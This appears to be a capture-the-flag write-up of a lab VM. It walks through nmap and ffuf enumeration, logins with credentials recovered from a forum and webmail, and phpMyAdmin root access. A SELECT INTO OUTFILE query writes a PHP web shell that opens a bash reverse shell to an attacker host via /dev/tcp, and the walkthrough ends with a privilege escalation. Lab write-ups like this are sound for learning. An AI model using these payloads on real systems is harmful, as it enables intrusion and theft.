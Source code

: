 ## Enumeration

### ping sweep

```
$ nmap -sn -o nmap/ping-sweep.txt 192.168.0.0/24
...
Nmap scan report for 192.168.0.6
Host is up (0.00068s latency).
...
```

### nmap scan


```
$ nmap -sV -oN nmap/sv.txt 10.0.0.5
...
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
...
```

### port 80

http://192.168.0.6/

![](assets/00.png)

### port 443

https://192.168.0.6/

![](assets/01.png)

Directory fuzzing

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
cgi-bin/                [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 6ms]
forum                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 1ms]
phpmyadmin              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 2ms]
server-status           [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 0ms]
webmail                 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 1ms]
...
```

**https://192.168.0.6/forum/**

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
modules                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 5ms]
templates_c             [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
themes                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
update                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
...
```

Users at https://192.168.0.6/forum/index.php?mode=user

![](assets/02.png)

Password at https://192.168.0.6/forum/index.php?id=6

![](assets/03.png)

Logged in using `lmezard:!q\]Ej?*5K5cy*AJ`

Email address at https://192.168.0.6/forum/index.php?mode=user&action=edit_profile

![](assets/04.png)

**https://192.168.0.6/webmail/**

Logged in using `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ`

Database credentials at an email

![](assets/05.png)

**https://192.168.0.6/phpmyadmin/**

Logged in using `root:Fg-'kKXBj87E:aJ$`

![](assets/06.png)

Write php file on `/var/www/forum/templates_c/` using this sql query

```
SELECT '<?php phpinfo();?>' INTO OUTFILE '/var/www/forum/templates_c/info.php'
```

![](assets/07.png)

Browsed to https://192.168.0.6/forum/templates_c/info.php

![](assets/08.png)

## Initial access

Create a php script to get a reverse shell

```
SELECT '<?php system("bash -c \'bash -i >& /dev/tcp/192.168.0.5/9000 0>&1\'");?>' INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```

Started a listener

```
$ nc -lnp 9000
```

Browsed to https://192.168.0.6/forum/templates_c/shell.php and got a shell

![](assets/09.png)

Logged in as `www-data`

Stabilize our shell

```
target$ python -c 'import pty; pty.spawn("/bin/bash")'
target$ Ctrl+Z
attack$ stty -a
speed 38400 baud; rows 53; columns 237; line = 0;
...
attack$ stty raw -echo; fg
target$ export TERM=xterm
target$ stty rows 53 columns 237
```

## Privilege escalation

**www-data -> lmezard**

credentials were found at `/home/LOOKATME/password`: `lmezard:G!@M6f4Eatau{sF"`

![](assets/10.png)

```
$ su lmezard
Password: G!@M6f4Eatau{sF"
```

![](assets/11.png)

